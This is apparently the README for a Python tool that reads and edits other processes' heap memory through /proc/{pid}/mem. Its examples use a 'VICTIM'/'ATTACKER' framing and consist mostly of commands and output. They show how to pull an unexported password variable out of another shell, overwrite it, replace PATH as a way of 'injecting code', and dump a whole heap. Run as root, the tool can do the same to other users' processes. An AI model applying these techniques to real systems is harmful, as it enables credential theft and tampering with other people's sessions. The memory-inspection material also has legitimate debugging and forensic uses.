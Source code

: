 # MRE (Memory Retriever and Editor)
A comprehensive solution for retrieval and modification of memory from multiple Processes.

This scripts allows the user to:
- retrieve and edit memory from processes opened by the same user
- retrieve and edit memory from processes opened by other users (if launched as root)

It furthermore includes flags to list the exported environment variables and tries to list the unexported variables too.

This script does **NOT** depend on GDB or ptrace, and only uses the default python3 libs.

#
## How does it work?
The script works by accessing `/proc/{pid}/mem` directly without calling ptrace to lock the process, by seeking into the heap retrieving the address from `/proc/{pid}/maps`.

This allows complete heap dump and in-place edit, thus permitting environment manipulation and other fancy tricks.

#
## Usage

Requires: `python3` (uses f-strings)

You can execute it with: `python3 -BO mre.py`
```
usage: mre.py [-h] [-l] [-e] [-d] [-r OLDVAL NEWVAL] [-f REGF] [-x] PID

positional arguments:
  PID

options:
  -h, --help            show this help message and exit
  -l, --list            lists all the possible bash variables used by PID (even the unexported ones)
  -e, --environ         lists all the (exported) environment variables
  -d, --dumpheap        dumps heap memory to stdout
  -r OLDVAL NEWVAL, --replace OLDVAL NEWVAL
                        searches the heap (using regex) for OLDVAL and replaces it with NEWVAL (NEWVAL needs to be shorter or the same length as the        
                        computed current value)
  -f REGF, --filter REGF
                        used with -d, dumps only what matches the regex
  -x, --force           used with -r, forces replaces even in shorter strings (dangerous!)

MRE (Memory Retriever and Editor) v0.9 by ShotokanZH
```
#
## Examples
### Example 1: Local Variable Replace
**Terminal 1:**
```bash
VICTIM:~$ echo $$
269
VICTIM:~$ supersecretpass="snadoisthebesttool"
```
Here you can notice that Terminal 1 (PID: 269) set a local variable "`$supersecretpass`", valued "`snadoisthebesttool`".

Since the variable has not been exported, we have no way of retrieving the password from another terminal.

Or do we?

**Terminal 2:**
```bash
ATTACKER:~$ python3 -BO mre.py 269 -l  | grep --text "supersecretpass="
supersecretpass="snadoisthebesttool"
supersecretpass="snadoisthebesttool"
supersecretpass="snadoisthebesttool"
supersecretpass="snadoisthebesttool"
```

Ok, we have now retrieved the contents of `$supersecretpass`!

But, can we edit it?

First, we have to know that in the heap, variables are usually delimited with `\0`.

Let's search it!


**Terminal 2:**
```bash
ATTACKER:~$ python3 -BO mre.py 269 -d -f "\0snadoisthebesttool\0"
0x194d4f b'\x00snadoisthebesttool\x00'
```

Perfect, at heap address `0x194d4f` we have successfully matched our string!

Let's replace it:

**Terminal 2:**
```bash
ATTACKER:~$ python3 -BO mre.py 269 -r "\0snadoisthebesttool\0" "\0mreisgoodtoo"
FROM: b'\x00snadoisthebesttool\x00'
TO: b'\x00mreisgoodtoo\x00[*7]'
```

Let's see what happened in **Terminal 1:**

**Terminal 1:**
```bash
VICTIM:~$ echo $supersecretpass
mreisgoodtoo
```
#
### Example 1.1: PATH Replace
Let's try and replace a PATH, thus injecting code

**Terminal 1:**
```bash
VICTIM:~$ echo $PATH
/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Let's replace it, we have two ways of doing it:

**Terminal 2**
```bash
ATTACKER:~$ python3 -BO mre.py 269 -r "\0/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games\0" '\0/snado'
FROM: b'\x00/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games\x00'
TO: b'\x00snado\x00[*136]'
FROM: b'\x00/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games\x00'    
TO: b'\x00snado\x00[*136]'
```
Or
```bash
ATTACKER:~$ python3 -BO mre.py 269 -r '\x00/home/shotokan/.local/bin:.*?\0' '\0/snado'
FROM: b'\x00/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games\x00'
TO: b'\x00snado\x00[*136]'
FROM: b'\x00/home/shotokan/.local/bin:/home/shotokan/perl5/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games\x00'    
TO: b'\x00snado\x00[*136]'
```
(Yes, it supports REGEX!)

And congratulations, you successfully replaced the `$PATH` variable!

**Terminal 1**
```bash
VICTIM:~$ echo $PATH
snado
VICTIM:~$ ls
Command 'ls' is available in the following places
 * /bin/ls
 * /usr/bin/ls
The command could not be located because '/usr/bin:/bin' is not included in the PATH environment variable.
ls: command not found
```
#
### Example 2: Heap Dump
Want to dump the heap of a process?

It's as easy as:

```bash
ATTACKER:~$ python3 -BO mre.py 269 -d > out.bin
```

Done!
#
Want to offer me a coffee?

My Stellar address: `shotokanzh*keybase.io`

(git verified here: https://gist.github.com/d99a9a756149ec8f0403 )
